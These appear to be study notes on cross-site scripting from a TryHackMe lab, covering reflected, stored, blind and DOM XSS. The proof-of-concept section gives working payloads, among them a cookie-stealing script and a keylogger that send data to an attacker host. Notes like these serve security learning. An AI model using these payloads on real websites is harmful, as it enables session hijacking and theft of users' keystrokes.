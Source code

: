 ![](assets/Pasted%20image%2020241112155322.png)

# [Introduction]()

In XSS attacker injects malicious JavaScript code in a vulnerable web server. There are two types of XSS.

- Reflected XSS
- Stored XSS

## [Reflected  XSS]()

In this scenario, attacker sends the payload to via URL and response is reflected back. 

![](assets/Pasted%20image%2020241112181518.png)

## [Stored XSS]()

In this payload is stored in the database and website uses it every from user load the page from the data making the attack persistent.

![](assets/Pasted%20image%2020241114200253.png)

## [Blind XSS]()

In this attack, attacker cannot see the payload working on the website.

## [DOM XSS]()

Look for variables that can be exploited in the JS code from the URL

![](assets/Pasted%20image%2020241114204112.png)

This code take num variable from URL and appending to img tag this can be exploited by changing the URL to below

![](assets/Pasted%20image%2020241114205055.png)
 
![](assets/Pasted%20image%2020241114205018.png)

# [POC]()

## [General usage]()

After putting JavaScript code to web page's input field if the page reacts as per the code then the web page is vulnerable to XSS

```
<script>alert('XSS');</script>
```

```
<img src="123" onerror="alert('test')" />
```

## [Session stealing]()

Most users details are stored in the form of cookies. This can be accessed by document.cookie. btoa function convert parameter to base64 and fetch function generating request to attackers webserver, giving access to users cookies when they visit infected page.

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## [Key Logger]()

Below is similar version of JS code that sends base64 to attacker of the key - on key press.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```


# [References]()

- https://tryhackme.com/r/room/xss
- https://www.youtube.com/watch?v=EubBgig6qYs